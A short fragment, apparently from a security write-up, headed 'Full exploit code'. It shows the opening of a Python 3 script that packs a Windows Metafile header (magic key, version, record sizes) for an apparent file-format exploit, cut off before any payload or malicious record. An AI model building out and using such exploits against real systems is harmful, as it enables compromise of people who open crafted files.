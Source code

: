 ![](img/18.jpg)

## Full exploit code

```python
# -- coding:utf-8 --
# Python3 required
from struct import *
import base64


def p32(data):
    return pack('<I', data)


def p16(data):
    return pack('<H', data)


class Header:
    def __init__(self):
        self.key = 0x9AC6CDD7
        self.HWmf = 0
        self.left = self.top = self.right = self.bottom = self.inch = self.reserved = 0
        self.type = 1
        self.HeaderSize = 9
        self.version = 0x300
        self.size = 9
        self.NumberOfObjects = 0
        self.MaxRecord = 0x100
        self.NumberOfMembers = 0
        self.Records = []

```
